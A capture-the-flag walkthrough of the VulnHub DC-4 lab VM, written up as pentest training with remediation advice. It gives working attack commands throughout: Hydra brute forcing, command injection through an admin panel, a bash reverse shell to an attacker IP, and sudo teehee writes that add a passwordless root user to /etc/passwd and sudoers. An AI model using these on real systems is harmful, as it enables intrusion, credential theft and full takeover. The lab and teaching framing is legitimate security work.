





# DC: 4 — Writeup

> DC-4 brings a full attack chain that mirrors real-world internal pentest findings closer than any previous entry in the series. Command injection in an admin panel, credentials in a backup file, SSH brute force, pivoting via unencrypted mail, and a sudo privesc using a tool called `teehee` that writes directly to `/etc/passwd`. Multi-hop, multi-user, max damage. GG, dude.

---

## Target Information

| Field | Details |
|-------|---------|
| **Level** | Beginner |
| **Target VM** | DC: 4 (VirtualBox/VMware, host-only) |
| **Attacker VM** | Kali Linux 2024.x |
| **Target IP** | 192.168.1.101 (host-only adapter) |
| **VulnHub URL** | https://www.vulnhub.com/entry/dc-4,313/ |
| **Techniques** | HTTP brute force (Burp Suite / Hydra), command injection, backup file credential harvesting, SSH brute force (Hydra), lateral movement via mail credential leak, sudo `/etc/passwd` injection (teehee) |
| **CVEs** | No specific CVEs; attack chain is technique-based |
| **CISA KEV** | N/A; command injection techniques (T1059) and sudo misconfiguration (T1548.003) are among the most common findings in real-world pentests |
| **APT Groups** | Command injection and credential reuse are documented TTPs for multiple ransomware groups (e.g., LockBit affiliates, Cl0p) and nation-state actors targeting web-facing admin panels |

---

## Attack Summary

```
[Attacker]
    |
    +--[ nmap ]--> port 22 (SSH), port 80 (nginx admin panel)
    |
    +--[ Burp Suite / Hydra brute force ]--> admin:happy
    |
    +--[ Command injection in System Tools panel ]--> www-data shell
    |
    +--[ cat /home/jim/backups/old-passwords.bak ]--> password list
    |
    +--[ Hydra SSH brute force ]--> jim:jibril04
    |
    +--[ cat /var/mail/jim ]--> charles:^xHhA&hvim0y
    |
    +--[ su charles ]--> charles shell
    |
    +--[ sudo teehee -a /etc/passwd ]--> inject passwordless root user
    |
    +--[ su raaj ]--> root shell
    |
    +--[ cat /root/flag.txt ]--> FLAG CAPTURED
```

---

## Methodology

1. Network discovery; HTTP on 80 (admin panel), SSH on 22
2. Brute force admin panel with Burp Suite Intruder
3. Exploit command injection in System Tools panel
4. Enumerate home directories; recover backup password file
5. SSH brute force with Hydra against enumerated users
6. Pivot from jim to charles via local mail credential leak
7. Escalate to root via `sudo teehee` write injection into `/etc/passwd`

---

## Step 1: Network Discovery

**Context:** Two services: SSH and an HTTP admin panel. Full port scan first; confirm service versions; browse to port 80 to understand the application. Recon before everything, fr fr.

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

**Expected output:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian
80/tcp open  http    nginx 1.15.10
```

Browsing to port 80 reveals a login form labeled "Admin" with username and password fields.

**Real-world note:** Admin panels exposed on port 80 without VPN or IP allowlisting are common findings in external penetration tests. Authentication via username/password without rate limiting or lockout is an invitation to brute force attacks.

**MITRE TTP:** T1046 - Network Service Discovery; T1595.002 - Active Scanning



---

## Step 2: Brute Force Admin Panel

**Context:** The admin panel accepts POST form submissions. Use Burp Suite Intruder to brute force the password field for user `admin` against `rockyou.txt`. The credential `admin:happy` is weak and is in common wordlists. Rekt by one of the most predictable passwords ever, bruh.

Capture the login POST request in Burp Suite Proxy. Send to Intruder.

Set the `password` field as the payload position:

```
username=admin&password=§FUZZ§
```

Load `rockyou.txt` or `/usr/share/wordlists/rockyou.txt` as the payload.

Run the attack and identify the response with a different length (or redirect to the admin dashboard): **admin / happy**

**Alternative:** Use Hydra directly:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 \
  http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

**Real-world note:** "happy" is in every significant password list. Admin portals with no rate limiting or lockout policy are trivially compromised via brute force. NIST SP 800-63B recommends against password complexity rules alone; check credentials against known compromised lists.

**MITRE TTP:** T1110.001 - Brute Force: Password Guessing



---

## Step 3: Command Injection via System Tools Panel

**Context:** After login, a "Command" section under "System Tools" lets admins run system commands. The `cmd` parameter is passed directly to the OS without sanitization. This is textbook OS command injection (CWE-78). No shell upload needed: the panel is already a shell. Legit one of the worst misconfigs possible, dude.

Capture the request in Burp Repeater. Inject into the `cmd` parameter:

```
cmd=ls /home
```

**Expected output:**

```
charles
jim
sam
```

Enumerate jim's backup directory:

```
cmd=ls /home/jim/backups
```

```
cmd=cat /home/jim/backups/old-passwords.bak
```

**Expected output (partial):**

```
000000
ilikesomething
...
jibril04
...
```

Save the password list to your attacker machine.

**Alternative:** Get a proper reverse shell via the injection point:

```bash
# On attacker: start listener
nc -lvnp 4444

# Injection payload
cmd=bash -c 'bash -i >& /dev/tcp/<attacker-IP>/4444 0>&1'
```

**Real-world note:** OS command injection via web admin panels is documented in numerous real breach reports. It is one of the OWASP Top 10 categories (A03:2021 Injection). Any application that executes user-supplied input via `exec()`, `shell_exec()`, `system()`, or similar is vulnerable.

**MITRE TTP:** T1059.004 - Command and Scripting Interpreter: Unix Shell; T1083 - File and Directory Discovery



---

## Step 4: SSH Brute Force with Hydra

**Context:** Three users, one password list from the backup file. Run Hydra against SSH to find which user is still using an old password. `jim` reused `jibril04`. Classic password reuse, noice.

```bash
echo -e "charles\njim\nsam" > users.txt
# Paste old-passwords.bak content into passwords.txt

hydra -L users.txt -P passwords.txt 192.168.1.101 ssh
```

**Expected output:**

```
[22][ssh] host: 192.168.1.101   login: jim   password: jibril04
```

**Alternative:** Use Medusa for multi-threaded SSH brute force:

```bash
medusa -H hosts.txt -U users.txt -P passwords.txt -M ssh
```

**Real-world note:** Password reuse is one of the most common credential access findings in penetration tests. Backup files containing historical passwords are frequently left on servers and are a treasure trove for attackers. Password change policies should include rotation of all known-historical passwords, not just the current one.

**MITRE TTP:** T1110.001 - Brute Force: Password Guessing; T1552.001 - Unsecured Credentials: Credentials in Files

---

## Step 5: Lateral Movement via Mail Credential Leak

**Context:** SSH as jim. Check local mail. Root sent jim an email containing charles's credentials in plain text. Sensitive creds transmitted via unencrypted local mail: that is a real-world finding in legacy environments. Pivot to charles via `su`.

```bash
ssh jim@192.168.1.101
# Password: jibril04

cat /var/mail/jim
```

**Expected output (relevant excerpt):**

```
From: root
To: jim
Subject: Creds

Hi Jim,

Your new friend is being moved to our organisation.
Please be sure to ...

charles:^xHhA&hvim0y
```

```bash
su charles
# Password: ^xHhA&hvim0y
```

**Real-world note:** Credentials transmitted via local system mail or stored in email history is a documented finding in internal network penetration tests, particularly in legacy Linux environments. `/var/mail/` is a common post-exploitation artifact to check. In real incidents, this pattern appears with creds stored in Slack messages, unencrypted email, helpdesk tickets, and internal wikis.

**MITRE TTP:** T1552.003 - Unsecured Credentials: Bash History; T1552 - Unsecured Credentials

---

## Step 6: Privilege Escalation via `sudo teehee`

**Context:** Check charles's sudo permissions. He can run `/usr/bin/teehee` as root with no password. `teehee` reads from stdin and appends to a file (equivalent to `tee -a`). With root write access to any file, inject a passwordless root-privileged user into `/etc/passwd`. Bruh, this is the sneakiest privesc in the series. Fr fr.

```bash
sudo -l
```

**Expected output:**

```
User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

The `/etc/passwd` entry format for a passwordless root user:

```
username:password:UID:GID:comment:home:shell
raaj::0:0:root:/root:/bin/bash
```

Inject the new user:

```bash
echo "raaj::0:0:root:/root:/bin/bash" | sudo teehee -a /etc/passwd
```

Switch to the new root-privileged user:

```bash
su raaj
```

No password required (empty password field). Verify root access:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/flag.txt
```

**Alternative approach using the same technique:**

```bash
# Inject into /etc/sudoers instead (if teehee can write there)
echo "charles ALL=(ALL) NOPASSWD: ALL" | sudo teehee -a /etc/sudoers
```

**Real-world note:** Any tool that reads stdin and writes to files, when granted sudo with no password restrictions, is a direct path to writing arbitrary content as root. This includes `tee`, `teehee`, `dd`, `cp`, `install`, and many others. The `/etc/passwd` injection technique is not theoretical: it is documented in post-breach forensics from real compromises. Even modern Linux systems with shadow passwords respect UID:0 entries in `/etc/passwd` for switching.

**MITRE TTP:** T1548.003 - Abuse Elevation Control Mechanism: Sudo; T1136.001 - Create Account: Local Account




---

## Captured Flags and Credentials

| Item | Value / Location |
|------|-----------------|
| Admin panel creds | admin:happy |
| SSH creds (jim) | jim:jibril04 |
| Lateral move creds (charles) | charles:^xHhA&hvim0y |
| Backup file | `/home/jim/backups/old-passwords.bak` |
| Injected root user | raaj (UID:0, no password) |
| Root flag | `/root/flag.txt` |

---

## Lessons Learned with Real-World Relevance

1. **Predictable admin passwords are trivially brute-forced.** "happy" is in rockyou.txt. Admin portals without rate limiting, account lockout, or 2FA are soft targets. This is not a CTF quirk: it is the first finding in roughly half of all real web application penetration tests.

2. **Command injection in admin panels is direct RCE.** An admin panel that passes user input to `exec()` is not an admin panel: it is a root shell waiting to happen. Input validation and parameterized API calls eliminate this entirely.

3. **Backup files with old passwords are credential gold.** `old-passwords.bak` sitting in a home directory demonstrates why backup hygiene and secure deletion matter. In real breaches, password history files, `.bash_history`, and database backups are treasure troves.

4. **Sensitive credentials in plaintext mail do not belong there.** Even local system mail is accessible to anyone who compromises the account. Credentials should be delivered via secrets management systems, not `mail(1)`.

5. **sudo write primitives equal root.** `teehee`, `tee`, `dd`, `install`: any file-write utility granted sudo is a `/etc/passwd` injection away from root. Audit every NOPASSWD sudoers entry for write primitives before deploying.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Notes |
|--------|-----------|-----|-------|
| Initial Access | Brute Force: Password Guessing | T1110.001 | Burp/Hydra against admin panel |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Command injection via System Tools |
| Discovery | File and Directory Discovery | T1083 | Enumerating /home and backup files |
| Credential Access | Unsecured Credentials: Credentials in Files | T1552.001 | old-passwords.bak |
| Lateral Movement | Remote Services: SSH | T1021.004 | jim:jibril04 via Hydra |
| Credential Access | Unsecured Credentials | T1552 | Plaintext creds in /var/mail/jim |
| Lateral Movement | Valid Accounts | T1078 | su charles |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo | T1548.003 | sudo teehee write to /etc/passwd |
| Persistence | Create Account: Local Account | T1136.001 | Inject raaj (UID:0) into /etc/passwd |
| Collection | Data from Local System | T1005 | Reading root flag |

---

## Remediation

### Vulnerability: Brute-Forceable Admin Panel

**NIST CSF 2.0 Functions:** Protect (PR.AC-1, PR.AC-3), Detect (DE.CM-7)

**NIST SP 800-53 Controls:**
- AC-7: Unsuccessful Logon Attempts (implement account lockout after N failures)
- IA-5: Authenticator Management (enforce strong passwords; check against NIST SP 800-63B breach list)
- IA-2(12): Multi-Factor Authentication for Privileged Accounts (require 2FA for admin access)

**C2M2:** MIL1 - Enforce password policies and 2FA; MIL2 - Monitor authentication failures.

**D3FEND:** D3-AL (Account Locking) to implement lockout; D3-MFA (Multi-Factor Authentication).

---

### Vulnerability: OS Command Injection

**NIST SP 800-53 Controls:**
- SI-10: Information Input Validation (sanitize all inputs; avoid passing user data to shell)
- SA-11: Developer Testing (SAST/DAST for injection vulnerabilities in CI/CD)
- CM-7: Least Functionality (run web server as minimal-privilege user; restrict shell access)

**Remediation (code):** Replace `exec($cmd)` with parameterized API calls. If OS commands are needed, use allow-lists and argument arrays instead of string concatenation.

**D3FEND:** D3-OAL (Operating System API Limiting) to restrict shell execution from web processes.

---

### Vulnerability: Credentials in Backup Files and Local Mail

**NIST SP 800-53 Controls:**
- SC-28: Protection of Information at Rest (encrypt sensitive files at rest)
- AC-3: Access Enforcement (restrict access to backup directories; enforce file permissions)
- IA-5: Authenticator Management (rotate passwords; purge historical credential files)

**Remediation:**

```bash
# Remove backup files with old credentials
shred -u /home/jim/backups/old-passwords.bak

# Ensure proper permissions on home directories
chmod 750 /home/jim/backups
```

---

### Vulnerability: sudo teehee NOPASSWD (write primitive)

**NIST SP 800-53 Controls:**
- AC-6: Least Privilege (remove all NOPASSWD sudo entries for file-write utilities)
- CM-6: Configuration Settings (audit sudoers; enforce baseline with configuration management)
- AU-9: Protection of Audit Information (prevent write to critical system files by non-root users)

**Remediation:**

```bash
# Remove from /etc/sudoers:
# charles ALL=(root) NOPASSWD: /usr/bin/teehee

# Audit all NOPASSWD entries:
grep -i nopasswd /etc/sudoers /etc/sudoers.d/*
```

**D3FEND:** D3-SEA (Sudo Execution Analysis); D3-SFH (System File Monitoring) to alert on `/etc/passwd` modifications.

---

## Final Thoughts

DC-4 is the most operationally realistic machine in the early DC series. The attack chain hits four distinct vulnerability classes: weak authentication, command injection, insecure credential storage, and sudo misconfiguration. Each finding maps directly to a real-world pentest report category. If you walked through every step and understood the "why" behind each pivot, you have the fundamentals for conducting real internal network penetration tests. The tools change; the methodology does not.

Thanks guys!! (❍ᴥ❍ʋ)
